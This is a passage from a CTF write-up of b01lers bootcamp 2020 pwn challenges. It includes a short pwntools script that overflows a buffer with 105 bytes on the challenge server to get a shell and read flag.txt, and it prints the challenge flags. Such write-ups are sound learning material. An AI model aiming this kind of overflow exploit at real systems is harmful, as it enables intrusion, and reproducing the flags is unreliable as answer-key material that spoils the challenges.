 Which actually worked! I got a shell, and was able to then print out the flag by running `cat flag.txt`. I'm so glad I learned about this from DUCTF - here's a screenshot of my victory:

![Screenshot of terminal: running script `oracle.py`. Some information about the binary: Arch: amd64-64-little, RELRO: Partial RELRO, Stack: no canary found, NX: NX enabled, PIE: No PIE (0x400000). It then opens a connection to chal.ctf.b01lers.com on port 1015 and then switches to interactive mode. Running `ls` lists out a Makefile, flag.txt, the binary `theoracle`, a C file `theoracle.c`, and a shell file `wrapper.sh`. Running `cat flag.txt` then prints out the flag.](/img/b01lers-bootcamp-2020/pwn_yessss.png)

**Flag**: flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}  
**Tools**: [`pwntools`](http://docs.pwntools.com/en/stable/)

## Metacortex
> This company is one of the top software companies in the world, because every single employee knows that they are part of a whole. Thus, if an employee has a problem, the company has a problem.

For this challenge, we were only given a binary executable. After some experimentation with it, I found that I could get to a shell by entering in 105 characters. So I used a similar script to the previous challenge, but substituting in 105 instead of 24:
```python
from pwn import *

elf = ELF("./metacortex")

p = remote("chal.ctf.b01lers.com", 1014)
payload = b"A"*105

p.recvline()
p.sendline(payload)

p.clean()
p.interactive()
```

And once again, once we get an interactive shell, we can simply run `ls` and then `cat flag.txt` to get the flag.

**Flag**: flag{Ne0_y0uAre_d0ing_well}  
**Tools**: [`pwntools`](http://docs.pwntools.com/en/stable/)
# Web
## Programs Only
> You don't have to be lonely at Programs Only dot com
